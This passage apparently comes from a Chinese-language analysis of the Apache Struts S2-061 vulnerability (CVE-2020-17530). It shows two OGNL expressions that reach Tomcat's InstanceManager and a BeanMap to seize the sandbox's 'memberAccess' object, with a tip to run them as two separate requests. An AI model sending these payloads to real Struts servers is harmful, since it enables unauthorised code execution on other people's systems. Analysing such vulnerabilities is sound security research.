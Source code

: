 [![img](.resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t011ca666d244cfde75.png)](https://p0.ssl.qhimg.com/t011ca666d244cfde75.png)

```
# 注意，自行调试的话，需要分两次执行
%{#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}

%{#application.map3.setBean(#application.get('map2').get('memberAccess'))}
```

确认一下之前存放的Map都正确存下来了，不然岂不是白忙活，其实每一步执行完后，都可以查看一次，确认每一步都是操作正确的，这里我就一次过了。

[![img](.resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t013ad7a8fe1ab70f12.png)](https://p3.ssl.qhimg.com/t013ad7a8fe1ab70f12.png)
